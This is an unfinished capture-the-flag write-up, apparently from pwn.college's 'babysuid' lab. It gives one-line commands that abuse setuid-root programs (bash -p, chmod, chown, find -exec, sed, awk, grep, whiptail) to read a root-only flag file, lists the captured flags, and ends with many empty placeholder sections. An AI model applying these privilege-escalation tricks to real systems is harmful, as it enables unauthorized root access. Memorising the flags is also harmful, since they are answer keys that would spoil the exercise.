 # Babysuid

These challenges work as following: 
1. We need to select a linux program that is owned by root. 
2. The program will be +s'ed (which means that its EUID will be 0).
3. Use that program to read the flag file (at the / directory) which only root user can.
4. The used programs cannot be repeated  

All challenges account for a total of 100 programs which will force us to use programs that were not designed to print files. <br>


## Programs

**NOTE 1:** For trivial programs, such as the ones that are specifically designed to print file contents, i'll only post the flag. <br>
**NOTE 2:** The flags are generated each time, so they wont work accross sessions <br>

### 1 - /bin/cat

```bash
# FLAG: pwn_college{4fBA3u9k_PFVx5-MK3oqJHImlHa.QXiQXYj9ibpJ2LiwSMsQjNxIzW}
```
### 2 - /bin/more 

```bash
# FLAG: pwn_college{49pT7FoqdEiPQo1Uj2NfX0uZxfy.0lIlJ3bt9ibpJ2LiwiMsQjNxIzW} 
```

### 3 - /bin/less 

```bash
# FLAG: pwn_college{4BZzWM6RdNnzF0IUx7bTJJMPB9P.0lIzNXZs9ibpJ2LiwyMsQjNxIzW} 
```

### 4 - /usr/bin/vim 

```bash
# FLAG: pwn_college{k-fOFu45ofDh9a3n2r828yhpvRi.0lIjl2chJmLtlmdv4Wai9iczV3LiwCNsQjNxIzW}
```

### 5 - /bin/nano

```bash
# FLAG: pwn_college{0pwvUy8bsK7GtBeAis59cuD2a3E.0lIv5WYu9ibpJ2LiwSNsQjNxIzW}
```

### 6 - /bin/bash

```bash
ctf$: bash -p (run bash as root)
root$: cat /flag.txt

# FLAG: pwn_college{UvZNuo3A5wjqSUyPDBmDgHCxyQ0.0lIoNXYi9ibpJ2LiwiNsQjNxIzW}
```

### 6 - /bin/chmod 

```bash
ctf$: chmod 777 /flag && cat /flag

# FLAG: pwn_college{41BgM-MeZ5FwpxAFHtfWv1mowZZ.dJCZv1Gaj9ibpJ2LiwyNsQjNxIzW}
```

### 8 - /bin/chwon 

```bash
ctf$: chown ctf:ctf /flag && cat /flag

# FLAG: pwn_college{gm0Iox5Op1ksxwO2PXlDVF-wzt5.dJib39Gaj9ibpJ2LiwCOsQjNxIzW}
```

### 9 - /usr/bin/find 

```bash
ctf$: find /flag -exec cat \{\} \;

# FLAG: pwn_college{ga5e-76C5u2aSUMdRtOobvcHfTJ.dJCZulmZv4Wai9iczV3LiwCOsQjNxIzW} 
```

### 10 - /bin/sed 

```bash
ctf$: sed -e "" /flag

# FLAG: pwn_college{09zM1TqiYXd_kbXY4X-J0zXWLpb.QXiQWZz9ibpJ2LiwSOsQjNxIzW}
```

### 11 - /usr/bin/awk

```bash
ctf$: awk 1 /flag

# FLAG: pwn_college{g4HVO3GbHgudbmVikjbXSRidaMq.QXis2dhd2LulmYvI3c19iIsATMsQjNxIzW} 
```

### 12 - /bin/grep

```bash
ctf$: grep "" /flag

# FLAG: pwn_college{QPhG5Uj3g2mokxdQ4ekfd44ra11.dJCclJ3Zv4Wai9iIsITMsQjNxIzW}
```

### 13 - /bin/zsh

```bash
Same as with bash

# FLAG: pwn_college{8aACb1q3dsSq1AUnPIAPvakqLS9.0lIoNnev4Wai9iIsMTMsQjNxIzW}
```

### 14 - /bin/dash 

```bash
Same as above

# FLAG: pwn_college{Qhb9M3kCnsXL4ZaQ4_zzGcwnvHS.dJCazFGZv4Wai9iIsQTMsQjNxIzW}
```

### 15 - /bin/lksh

```bash
Same as above

# FLAG: pwn_college{4Y2iN01SXHn-ZNrRbHdbRoYQh8H.dJCaztGbv4Wai9iIsUTMsQjNxIzW}
```

### 16 - /bin/mksh

```bash
Same as above

# FLAG: pwn_college{gZa5J11Jdz3M-WiRjbpZPhgKuxQ.dJCaztWbv4Wai9iIsYTMsQjNxIzW}
```

### 17 - /bin/sash 

```bash
Does not have "-p" flag.
ctf$: /bin/sash -c "cat /flag"

# FLAG: 
```

### 18 - /bin/whiptail

```bash
ctf$: /bin/whiptail --textbox /flag 10 50

# FLAG: pwn_college{sVTUuyhJ6Q0VDBRN6LvDplS77gd.QXiwWahRHcph2dv4Wai9iIsgTMsQjNxIzW}
```

### 19 - /usr/bin/tail 

```bash
# FLAG: pwn_college{4celqS8W2TxPL3YECz4gl1s0ubW.QXiwWahR3LulmYvI3c19iIskTMsQjNxIzW}
```

### 

```bash
# FLAG: 
```

### 

```bash
# FLAG: 
```

### 

```bash
# FLAG: 
```

### 

```bash
# FLAG: 
```

### 

```bash
# FLAG: 
```

### 

```bash
# FLAG: 
```

### 

```bash
# FLAG: 
```

### 

```bash
# FLAG: 
```

### 

```bash
# FLAG: 
```

### 

```bash
# FLAG: 
```

### 

```bash
# FLAG: 
```

### 

```bash
# FLAG: 
```

